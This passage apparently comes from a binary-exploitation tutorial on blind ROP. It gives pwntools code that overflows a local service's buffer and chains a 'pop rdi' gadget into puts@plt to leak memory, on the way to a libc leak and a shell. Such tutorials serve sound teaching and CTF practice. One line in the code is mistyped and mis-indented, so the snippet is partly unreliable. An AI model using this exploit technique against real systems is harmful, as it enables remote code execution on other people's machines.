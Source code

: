 

Finally, according to the structure of plt, choose 0x400560 as puts@plt


#### Leaking puts@got address


After we can call the puts function, we can leak the address of the puts function, and then get the libc version, so as to get the relevant system function address and /bin/sh address to get the shell. We leaked 0x1000 bytes from 0x400000, which is enough to contain the plt part of the program. code show as below


```python

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):

    sh = remote('127.0.0.1', 9999)

    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(

        puts_plt) + p64(stop_gadget)

    sh.recvuntil('password?\n')

    sh.sendline(payload)

    try:

        data = sh.recv()

        sh.close()

        try:

            data = data[:data.index("\nWelCome")]

        except Exception:

date = data
        if data == "":

            data = '\x00'

        return data

    except Exception:

        sh.close()

        return None





##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
```